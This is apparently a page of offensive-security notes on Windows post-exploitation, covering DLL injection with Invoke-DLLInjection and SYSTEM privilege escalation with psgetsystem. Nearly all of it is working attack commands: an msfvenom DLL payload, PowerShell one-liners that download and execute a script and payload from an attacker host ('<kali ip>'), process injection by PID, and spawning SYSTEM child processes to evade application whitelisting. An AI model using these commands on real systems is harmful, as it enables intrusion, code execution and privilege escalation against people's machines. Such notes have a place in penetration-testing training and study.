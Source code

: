 ### Invoke-DLLInjection
this function injects an attacker-defined DLL into any existing process ID on the target system.

```bash
msfvenom -p windows/exec CMD="cmd.exe" -f dll > cmd.dll
```

open a web host:
grab the file:
```powershell
iex (New-Object Net.Webclient).DownloadFile('http://<kali ip>/cmd.dll', 'C:\programdata\cmd.dll')
```

- Identify a process on the target system we would like to inject our DLL into.

```powershell
ps | ? {$_.ProcessName -match "notepad"}
```


- After grabbing the PID of the choosen process
We can grab the Invoke-DLLInjection and execute it to inject our malicious dll in the PID of the process

```powershell
iex (New-Object Net.Webclient).DownloadString('http://<kali ip>/Invoke-DLLInjection.ps1'); Invoke-DLLInjection -ProcessID 7420 C:\programdata\cmd.dll
```

- once that in complete, we can run "ps" command again, to confirm that we have a "cmd" process which has been spawned from our DLL injection operation, which is created in a new process thread.

```powershell
ps | ? {$_.ProcessName -match "cmd"}
```

### More about DLL injection
	http://blog.opensecurityresearch.com/2013/01/windows-dll-injection-basics.html


- psgetsystem

// another tool

	https://github.com/decoder-it/psgetsystem

psgetsystem allows us to get SYSTEM privileges via a parent process, which then spawns a child process which effectively inherits the SYSTEM access privileges of the parent.
Although this tool needs to be run as Administrator, its a great way to evade application whitelisting solutions by being to inject ourselves into an already signed or other trusted process.

After send the script to the target
```powershell
	. .\psgetsys.ps1
	[MyProcess]::CreateProcessFromParent(<system_id>, "<Command to execute>")
```

- First we need to identify some SYSTEM processes

```powershell
Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id
```
